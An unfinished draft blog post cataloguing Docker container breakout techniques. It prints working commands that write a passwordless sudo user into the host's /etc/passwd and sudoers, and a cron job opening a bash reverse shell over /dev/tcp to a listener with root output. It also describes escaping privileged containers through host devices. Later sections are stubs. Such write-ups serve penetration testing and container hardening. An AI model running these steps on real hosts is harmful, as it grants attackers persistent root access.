 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```


Basic Container Breakouts
## Intro
The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks
The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.
Lets assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we create a user in the file `/hostfs/etc/passwd` and add the user to the sudoer’s. After the user is prepared, we connect via SSH to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```bash 
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1000::/home/user:/bin/bash
# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0
# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd
# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user
# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2
# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo step by creating another user with uid 0 to get rid of that step, nut anyway ;)

#### Cronjob

Another approach would be to write a cronjob file that get triggered every minute and connects to our container as root user.

```bash 
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but no real security boundaries to the kernel.
There are plenty ways to escape from a privileged container. Let’s have a start.

#### Host devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the devices in the container shows that we have access to all of them:

```bash
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]

brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1

[...]
```
As you can see, the hard drive itself is listed, which can be mounted. After mounting the device, it is possible to interact as root user with the device and backdoor the system.
Getting access via the hard drive is already described in the previous section ***XYZ***


#### cgroups
TODO … have to read :D

### Docker Socket

Finde Docker Socket
Starte privileged Container

### Capabilities

#### `CAP_SYS_Module` – Load Kernel Module 





